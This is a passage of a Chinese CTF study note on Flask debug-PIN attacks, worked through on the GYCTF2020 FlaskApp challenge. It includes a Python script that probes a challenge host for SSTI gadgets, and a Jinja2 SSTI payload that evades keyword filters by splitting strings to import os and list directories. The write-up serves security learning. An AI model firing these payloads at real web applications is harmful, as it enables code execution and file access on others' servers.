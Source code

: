 想怎么控制怎么控制了🤗🤗

![image-20220903174019884](D:\Typora\note\CTF\web\知识点\flask算PIN.assets\image-20220903174019884.png)

### 参考文章

[从一道ctf题谈谈flask开启debug模式存在的安全问题](https://www.anquanke.com/post/id/197602)

[Flask debug 模式 PIN 码生成机制安全性研究笔记](https://www.cnblogs.com/HacTF/p/8160076.html)

[Flask debug pin安全问题](https://xz.aliyun.com/t/2553#toc-2)

### 例题

#### [GYCTF2020]FlaskApp

算是很经典的flask算pin了

题目有一个**base64**加密和解密，那么直接解密处输入`e3syKzJ9fQ==`也就是`{{2+2}}`回显4，证明有ssti

然后试了试发现`flag os popen system`等等被过滤了(其实还是有很多办法的，拼接一下就好)

##### SSTI bypass

先用常规的SSTI解一下

```python
import requests
import base64

for i in range(0,300):
    payload="{{().__class__.__mro__[-1].__subclasses__()[%s].__init__.__globals__.keys()}}"%i
    payload=payload.encode('utf-8')
    data=base64.b64encode(payload)
    data=str(data,encoding='utf-8')
    d={'text':data}
    url='http://c787580f-7c43-4f02-bbcc-ced3cadec650.node4.buuoj.cn:81/decode'
    r=requests.post(url=url,data=d)
    print(d)
    if "__builtins__" in r.text:
        #print(r.text)
        print(f'[+]:{i}')
        break
    print(f'[-]:{i}')
print('[+]done')

75
```

先找一下**open**能打开文件的东西

或者在命令中扫描

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```
